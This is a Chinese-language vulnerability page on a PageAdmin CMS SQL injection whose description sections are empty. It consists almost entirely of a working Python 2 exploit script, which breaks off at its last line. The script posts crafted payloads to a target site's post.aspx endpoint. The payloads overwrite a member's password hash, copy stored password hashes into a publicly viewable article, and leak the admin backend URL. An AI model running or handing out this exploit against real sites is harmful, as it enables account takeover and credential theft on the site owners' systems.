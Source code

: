 PageMyAdmin sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### poc

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-


    import urllib2
    import urllib
    import re
    import sys

    def main():
        url=sys.argv[1]+"/e/aspx/post.aspx"
        fun=sys.argv[2]
        if fun=='upass':
            update(url)
        elif fun=='sqlinject':
            sqlinject(url)
        elif fun=='Backstage':
            Backstage(url)
        else:
            print'''
            usage: pageadminsql.py http://www.baidu.com/ upass
            parameter: uppass sqlinject Backstage
            '''
    def update(url):
        headers = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0","Referer":url+"?a=pageadmin_cms"}
        formate={
        "siteid":"1",
        "formtable":"1",
        "thedata":'[u][k]pa_member[k][s][k]userpassword="1527f10a11de5efea4b8516213413c103df55126"[k]where[k]id=2'
        }
        postdata = urllib.urlencode(formate)
        request = urllib2.Request(url, data=postdata, headers = headers)
        try:
            response = urllib2.urlopen(request)
            if response.getcode()==200:
                print u">>>>>>修改密码成功 修改密码：admin_1234213<<<<<<"
                pass
        except Exception as e:
            print u">>>>>>修改密码失败<<<<<<"
            pass
    def sqlinject(url):
        headers = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0","Referer":url+"?a=pageadmin_cms"}
        formate={
        "siteid":"1",
        "formtable":"1",
        "thedata":"[u][k]article,pa_member[k][s][k]article.title=pa_member.userpassword[k]where[k]article.id=747"
        }
        postdata = urllib.urlencode(formate)
        request = urllib2.Request(url, data=postdata, headers = headers)
        try:
            response = urllib2.urlopen(request)
            if response.getcode()==200:
                print u">>>>>>密码注入成功 查看密码地址：{0}/index.aspx?lanmuid=63&sublanmuid=654&id=747<<<<<<".format(sys.argv[1])
                pass
        except Exception as e:
            print u">>>>>>密码注入失败<<<<<<"
            pass
    def Backstage(url):
        headers = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0","Referer":url+"?a=pageadmin_cms"}
        formate={
        "siteid":"1",
        "formtable":"1",
        "thedata":"[u][k]article,pa_log[k][s][k]article.title=pa_log.url[k]where[k]article.id=747"
        }
        postdata = urllib.urlencode(formate)
        request = urllib2.Request(url, data=postdata, headers = headers)
        try:
            response = urllib2.urlopen(request)
            if response.getcode()==200:
                print u">>>>>>后台地址注入成功 查看后台地址：{0}/index.aspx?lanmuid=63&sublanmuid=654&id=747<<<<<<".format(sys.argv[1])
                pass
        except Exception as e:
            print u">>>>>>后台地址注入失败<<<<<<"
            pass
    if __name__ == '__main__':
        main(
